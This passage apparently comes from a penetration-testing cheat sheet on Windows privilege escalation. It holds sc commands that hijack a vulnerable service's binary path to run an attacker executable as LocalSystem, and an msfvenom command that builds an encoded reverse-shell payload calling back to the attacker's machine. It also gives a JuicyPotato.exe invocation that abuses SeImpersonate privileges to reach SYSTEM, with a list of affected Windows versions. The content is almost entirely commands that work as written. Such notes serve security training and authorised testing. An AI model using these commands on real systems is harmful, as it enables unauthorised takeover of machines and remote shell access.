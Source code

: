 Note - Might need to use the depend attribute explicitly:sc stop \<vuln-service>

```
sc config <vuln-service> binPath= "c:\inetpub\wwwroot\runmsf.exe" depend= "" start= demand obj= ".\LocalSystem" password= ""
sc start <vuln-service>
```

## Juicy Potato (abusing the golden privileges)

If you have _SeAssingPrimaryToken_ or _SeImpersonate_ privileges, you can get SYSTEM.

![](../.gitbook/assets/image.png)

### Vulnerable Win versions

```
Windows 7 Enterprise
Windows 8.1 Enterprise
Windows 10 Enterprise
Windows 10 Professional
Windows Server 2008 R2 Enterprise
Windows Server 2012 Datacenter
Windows Server 2016 Standard
```

create payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=$kaliip LPORT=444 -e x86/shikata_ga_nai -f exe -o rev.exe
```

run juicy potato

```
JuicyPotato.exe -l 1340 -p C:\users\User\rev.exe -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```
